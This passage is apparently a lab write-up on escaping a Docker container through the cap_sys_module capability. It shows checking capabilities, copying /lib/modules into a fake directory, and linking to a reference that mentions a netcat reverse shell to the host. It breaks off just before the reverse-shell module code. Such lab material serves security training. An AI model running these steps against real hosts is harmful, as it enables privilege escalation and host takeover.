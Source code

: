When a container is running with cap_sys_module capability it can inject kernel modules into the running kernel of the host machine.

The isolation is done on the OS level not the kernel/hardware level and the containers use docker runtime engine to interact with the host machine kernel eventually.

In this lab, you will found that the container is running with additional cap_sys_module capability which is not added normally when you start the container with default arguments

How to do it:

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_module:~:text=nc%20172.17.0.1%205600-,CAP_SYS_MODULE,-CAP_SYS_MODULE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_module:~:text=nc%20172.17.0.1%205600-,CAP_SYS_MODULE,-CAP_SYS_MODULE)

- Atm we are root in the docker container - so the only logical thing to do would be to try and break out of the docker and into the host machine

- Checking capabilities:

```bash
capsh --print

```

![image48](../resources/fa05c9af920942369bf4b3f5737c14cb.png)

- We see the cap_sys_module is set

**<u>To exploit:</u>**
- First look at the current modules available:

```bash
ls /lib/modules

```

![image49](../resources/581294ccd8e34300ab37e52cbcabc90b.png)

By default, modprobe command checks for dependency list and map files in the directory /lib/modules/\$(uname -r)

In order to abuse this, lets create a fake lib/modules folder:

```bash
mkdir lib/modules -p

cp -a /lib/modules/6.1.0-20-amd64/ lib/modules/$(uname -r)

```
- Create the **reverse-shell.c** file:
